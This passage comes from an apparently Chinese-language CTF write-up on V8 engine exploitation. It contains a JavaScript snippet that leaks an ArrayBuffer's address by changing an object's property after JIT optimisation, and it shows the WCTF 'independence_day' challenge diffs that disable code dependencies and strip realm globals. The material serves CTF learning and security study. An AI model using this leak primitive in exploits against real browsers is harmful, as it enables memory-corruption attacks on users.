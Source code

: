 ```
function leaker(o){
    return o.c.a;
}
for (var i = 0; i < 0x4000; i++) {
    leaker(obj);
}

var buf_to_leak = new ArrayBuffer();
obj.c = {b: buf_to_leak}

console.log(leaker(obj)) //output: 2.0289592652999e-310
```
这里有个小坑，在看大佬博客时看到：“注意：修改obj.c时不能使用同属性名，如{a: buf_to_leak}，因为事实上仍然存在一些依赖会影响到deoptimize”


## wctf independence_day

### patch

```
diff --git a/src/objects/code.cc b/src/objects/code.cc
index 24817ca65c..4079f6077d 100644
--- a/src/objects/code.cc
+++ b/src/objects/code.cc
@@ -925,6 +925,7 @@ void DependentCode::InstallDependency(Isolate* isolate,
                                       const MaybeObjectHandle& code,
                                       Handle<HeapObject> object,
                                       DependencyGroup group) {
+#if 0
   Handle<DependentCode> old_deps(DependentCode::GetDependentCode(object),
                                  isolate);
   Handle<DependentCode> new_deps =
@@ -932,6 +933,7 @@ void DependentCode::InstallDependency(Isolate* isolate,
   // Update the list head if necessary.
   if (!new_deps.is_identical_to(old_deps))
     DependentCode::SetDependentCode(object, new_deps);
+#endif
 }
 
 Handle<DependentCode> DependentCode::InsertWeakCode(
```
禁用了code dependencies.

```
commit 3794e5f0eeee3d421cc0d2a8d8b84ac82d37f10d
Author: Your Name <you@example.com>
Date:   Sat Dec 15 18:21:08 2018 +0100

    strip global in realms

diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index 98bc56ad25..e72f528ae5 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
@@ -1043,9 +1043,8 @@ MaybeLocal<Context> Shell::CreateRealm(
     }
     delete[] old_realms;
   }
-  Local<ObjectTemplate> global_template = CreateGlobalTemplate(isolate);
   Local<Context> context =
-      Context::New(isolate, nullptr, global_template, global_object);
+      Context::New(isolate, nullptr, ObjectTemplate::New(isolate), v8::MaybeLocal<Value>());
   DCHECK(!try_catch.HasCaught());
   if (context.IsEmpty()) return MaybeLocal<Context>();
```